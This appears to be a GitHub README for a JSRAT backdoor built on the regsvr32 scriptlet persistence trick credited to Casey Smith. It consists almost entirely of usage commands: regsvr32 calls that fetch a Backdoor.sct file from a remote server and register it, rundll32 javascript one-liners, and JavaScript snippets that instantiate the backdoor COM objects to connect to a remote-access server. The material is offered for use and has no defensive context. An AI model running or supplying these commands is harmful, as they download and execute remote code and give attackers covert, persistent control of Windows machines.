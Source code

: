 Another way of JSRAT on SCTPersistence.
---

Thanks to Casey Smith@subTee

https://github.com/subTee/SCTPersistence


His Way:


1.On host, execute regsvr32.exe /s /i:http://server/Backdoor.sct scrobj.dll


-The default is to use the path to a local file


-rewrite the regkey


-the Class definition comes form the interwebs http://server/c2.js


2.c2.js


-javascript payload


-.sct format


3.call the COM Object


-cmd


`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("Component.Backdoor");x.Main();`


or


-js


`var x = new ActiveXObject("Component.Backdoor");


x.Main();


var x = new ActiveXObject("Component.Backdoor");


x.Exec();`


My Way:


1.On host, execute regsvr32.exe /s /i:http://server/Backdoor.sct scrobj.dll


-The default is to use the path to a local file


-Connect to the JSRAT server


2.call the COM Object


-cmd


`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("Empire");x.Exec();`


-js


`var ref = new ActiveXObject("JSRAT");


ref.Exec();`




---
###Usage:

1.(local)


`regsvr32.exe /s /i:Backdoor.sct scrobj.dll`


or (remote)


`regsvr32.exe /s /i:http://example/Backdoor.sct scrobj.dll`


2.run BackdoorTest.js to start JSRAT

 













